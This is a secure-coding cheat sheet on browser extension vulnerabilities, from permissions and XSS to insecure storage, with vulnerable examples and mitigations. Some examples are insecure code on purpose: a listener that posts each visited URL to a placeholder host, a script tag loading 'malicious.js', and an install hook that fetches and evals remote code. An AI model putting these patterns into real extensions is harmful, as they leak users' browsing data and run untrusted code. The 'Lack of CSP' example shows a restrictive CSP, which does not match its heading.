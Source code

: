 # Browser Extension Security Vulnerabilities Cheat Sheet

1. Permissions Overreach

🚨 Vulnerability
Browser extensions sometimes request more permissions than they actually need. This can grant them access to all tabs, browsing history, and even sensitive user data. If an extension is compromised, it could lead to serious privacy risks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
🔒 Mitigation

Follow the Principle of Least Privilege (PoLP) and request only the permissions that are absolutely necessary.
Use optional permissions whenever possible instead of granting full access upfront.
Regularly audit and remove any permissions that are no longer needed.

2. Data Leakage

🚨 Vulnerability
Some extensions unintentionally expose user data by sending browsing activity or personal details to external servers without proper security measures.

🔍 Example

javascript
Copy code
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ URL: tab.url })
    });
  }
});
🔒 Mitigation

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is collected in a Privacy Policy.
Implement user consent mechanisms before collecting or sending any personal data.

3. Cross-Site Scripting (XSS)

🚨 Vulnerability
If user input is not properly sanitized, attackers can inject malicious scripts into web pages, potentially stealing user data or performing unauthorized actions.

🔍 Example

javascript
Copy code
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
🔒 Mitigation

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of injected scripts.

4. Insecure Communication

🚨 Vulnerability
Some extensions send sensitive data over unsecured HTTP connections, making it vulnerable to interception by attackers.

🔍 Example

javascript
Copy code
fetch('http://example.com/api/data');
🔒 Mitigation

Always use HTTPS for external communications to prevent data theft.
Validate server responses before processing them to ensure data integrity.

5. Code Injection

🚨 Vulnerability
An extension that dynamically loads scripts from an untrusted source can be exploited to inject and execute malicious code.

🔍 Example

javascript
Copy code
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
🔒 Mitigation

Use CSP (Content Security Policy) to restrict script sources.
See the [CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) for more details.
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.

6. Malicious Updates

🚨 Vulnerability
If an extension fetches updates from an untrusted server, an attacker could push malicious updates to all users.

🔍 Example

javascript
Copy code
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});
🔒 Mitigation

Sign extension updates with digital signatures to ensure authenticity.
Instead of fetching updates within the extension, rely on updates from the extension marketplace.
See ["Don’t inject or incorporate remote scripts"](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices).
Implement integrity checks before executing any fetched code.

7. Third-Party Dependencies

🚨 Vulnerability
Using outdated or vulnerable third-party libraries in an extension can introduce security risks if those libraries have known exploits.

🔍 Example

json
Copy code
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
🔒 Mitigation

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.

8. Lack of Content Security Policy (CSP)

🚨 Vulnerability
Without a strict CSP, attackers can inject scripts into an extension’s web pages, increasing the risk of cross-site scripting (XSS) attacks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
🔒 Mitigation

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.

9. Insecure Storage

🚨 Vulnerability
Storing sensitive data like authentication tokens in localStorage or other unsecured locations makes it easy for attackers to access.

🔍 Example

javascript
Copy code
localStorage.setItem('token', 'my-secret-token'); // No encryption
🔒 Mitigation

Store sensitive data in Chrome Storage API, which provides better security than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.

10. Insufficient Privacy Controls

🚨 Vulnerability
If an extension does not clearly define how it collects and handles user data, it could lead to privacy violations and unauthorized data usage.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
🔒 Mitigation

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.

🏁 Conclusion
By following these security best practices, developers can build safer browser extensions and protect users from privacy and security threats. Always prioritize least privilege, encryption, and secure coding principles when developing extensions.

🔹 References:
[Google Chrome Extension Security Guide](https://developer.chrome.com/docs/extensions/mv3/security/)  
[Mozilla Firefox Extension Security Best Practices](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices)

